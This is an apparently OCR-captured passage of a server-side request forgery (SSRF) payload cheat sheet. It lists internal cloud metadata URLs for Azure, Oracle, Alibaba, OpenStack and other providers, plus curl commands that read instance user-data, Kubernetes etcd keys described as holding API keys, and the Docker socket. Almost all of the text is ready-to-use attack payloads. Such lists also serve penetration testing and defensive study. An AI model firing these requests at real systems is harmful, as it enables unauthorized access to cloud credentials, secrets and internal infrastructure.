 curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
SSRF URL for Packetcloud
Documentation available at https://metadata.packet.net/userdata

SSRF URL for Azure
Limited, maybe more exists? https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/

http://169.254.169.254/metadata/v1/maintenance
Update Apr 2017, Azure has more support; requires the header “Metadata: true” https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service

http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
SSRF URL for OpenStack/RackSpace
(header required? unknown)

http://169.254.169.254/openstack
SSRF URL for HP Helion
(header required? unknown)

http://169.254.169.254/2009-04-04/meta-data/ 
SSRF URL for Oracle Cloud
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
SSRF URL for Alibaba
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
SSRF URL for Kubernetes ETCD
Can contain API keys and internal ip and ports

curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
SSRF URL for Docker
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
More info:

Daemon socket option: https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option
Docker Engine API: https://docs.docker.com/engine/api/latest/
SSRF URL for Rancher
curl http://rancher-metadata/<version>/<path>
